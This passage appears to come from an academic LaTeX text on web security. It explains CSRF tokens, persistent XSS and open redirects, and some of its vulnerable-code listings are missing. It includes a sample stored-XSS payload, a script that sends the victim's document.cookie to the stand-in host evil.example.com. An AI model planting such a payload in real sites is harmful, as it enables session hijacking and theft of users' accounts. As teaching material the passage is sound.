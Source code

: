 A common protection against an CSRF attack is requiring a token to be submitted together with the request. This token is unique to the current user session and usually not visible to the user. An attacker would need to retrieve the current session token, and merely submitting a fixed URL with a request would not work anymore. Facebook and TYPO3 use the token technique.~\cite{facebook-tokens, typo3-csrf}

The danger of CSRF is greatly increased if the site is susceptible to XSS since being able to execute JavaScript in the target web site's context would allow an attacker to retrieve the current token.


\subsection{Persistent XSS}
\label{persistent-xss}
Persistent cross-site scripting (persistent XSS) is a variant of the XSS vulnerability. It refers to the case when untrusted data is first stored in the file system or database, and some other part of the application then uses the stored data for output, thus inserting the malicious data in the output even if the page is loaded from a clean URL. This is a lot harder to find via tainted object propagation due to the database being between the source and the sink, causing the source and the sink to come into action during separate requests.

This is an example of vulnerable code:


An attacker could use the post submission form and enter a title like this:

\begin{htmlcode}
<script>
  image = new Image();
  image.src = "http://evil.example.com/?c=" + document.cookie;
</script>
\end{htmlcode}

\subsection{Open Redirect}
\label{open-redirect}

A web application is susceptible to an open redirect attack if it uses untrusted data as the source for a redirect. This is an example of vulnerable code:

